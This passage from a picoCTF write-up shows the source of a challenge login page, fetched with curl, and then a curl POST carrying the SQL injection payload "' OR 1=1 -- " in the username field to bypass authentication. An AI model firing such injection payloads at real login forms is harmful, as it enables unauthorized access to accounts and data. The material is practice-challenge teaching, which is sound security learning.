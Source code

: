 
```
└─$ curl 'https://jupiter.challenges.picoctf.org/problem/50009/login.html'
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

From the hints of the challenge and what we found, we may suspect that the login system is vulnerable to **SQL Injections**, let's try to make a basic injection what it does :

```
curl 'https://jupiter.challenges.picoctf.org/problem/50009/login.php' --X POST --data "username=' OR 1=1 -- &password="
```
